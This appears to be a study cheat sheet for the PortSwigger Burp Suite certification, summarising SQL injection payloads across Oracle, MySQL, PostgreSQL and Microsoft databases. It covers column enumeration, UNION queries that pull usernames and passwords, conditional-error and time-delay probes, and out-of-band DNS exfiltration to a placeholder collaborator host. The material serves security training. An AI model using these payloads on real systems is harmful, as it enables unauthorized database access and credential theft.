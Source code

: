 ##### PortSwigger BurpSuite Certification Summary
# SQL Injection
### Determine the Database
```
SELECT @@version # fails. Then you know it is not MS SQL or MySQL.
SELECT version() # fails. You know it is not PostGres
SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;# Succeeds! You know it is oracle.
```
Oracle always requires a `FROM` statement with every `SELECT`. To query arbitrary data (such as strings), the `dual` table should be used, e.g.:
```
SELECT 'A','B' FROM dual
```

### String Concatenation
In order to get multiple results in one column.
```
Oracle,PostgreSQL			'foo'||'bar'
Microsoft					'foo'+'bar'
MySQL						'foo' 'bar' or CONCAT('foo','bar')
```

### Comments
```
Oracle  					--comment
Microsoft,PostgreSQL		--comment or /*comment*/
MySQL						#comment or -- comment or /*comment*/				
```

### Substring
Syntax: SUBSTRING(string, start_position, length)
```
Oracle						SUBSTR('foobar',4,2)
All others					SUBSTRING('foobar',4,2)
```

### Length
All databases have a function for string length: `LENGTH()`

### List Tables & Columns
```
Oracle 				 	SELECT * FROM all_tables
						SELECT * FROM all_tab_columns WHERE table_name=''

All others		  		SELECT * FROM information_schema.tables
						SELECT * FROM information_schema.columns WHERE table_name = ''
```

### UNION Attack
Determine the number of columns:
```
UNION SELECT NULL
...
UNION SELECT NULL, ..., NULL
```
or
```
ODER BY 1
...
ORDER BY 10
```

Check which columns are formatted as string by replacing any `NULL` with `'A'`.

Use UNION to query information from other tables:
```
UNION SELECT username, password FROM users
```

### Conditional Errors
```
Oracle 		SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END
PostgreSQL	SELECT CASE WHEN (1=1) THEN cast(1/0 as text) ELSE NULL END
MySQL		SELECT IF(1=1, SELECT table_name FROM information_schema.tables, 'a')
```

MySQL IF() syntax: SELECT IF(condition, case_true, case_false)

### Time Delays
Sleep for 10 seconds.
```
Oracle	  	dbms_pipe.receive_message(('a'),10)
Microsoft  	WAITFOR DELAY '0:0:10'
PostgreSQL  	SELECT pg_sleep(10)
MySQL		SELECT sleep(10)
```
In Oracle, a concatenation of strings is required for a conditional time delay:

`SELECT CASE WHEN (1=1) THEN
'A'||dbms_pipe.receive_message(('A'),10) ELSE NULL END FROM dual`

### DNS Lookup
Oracle
```
SELECT extractvalue(xmltype(
	'<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root [ <!ENTITY % remote SYSTEM
	"http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l')
FROM dual
```
PostgreSQL
```
copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
```
MySQL
```
LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```

Prepending any query result to the subdomain, separated with a `.`, allows for sending information to the adversary.

Note:
* The Oracle statement works only on unpatched versions.
* The MySQL statement is only working on Windows machines

### Inline Commands
#### Oracle, PostgreSQL
```
'||(select password from users where username='administrator')||'
```
#### MySQL
```
' (select password from users where username='administrator') '
```
#### Microsoft
```
'+(select password from users where username='administrator')+'
```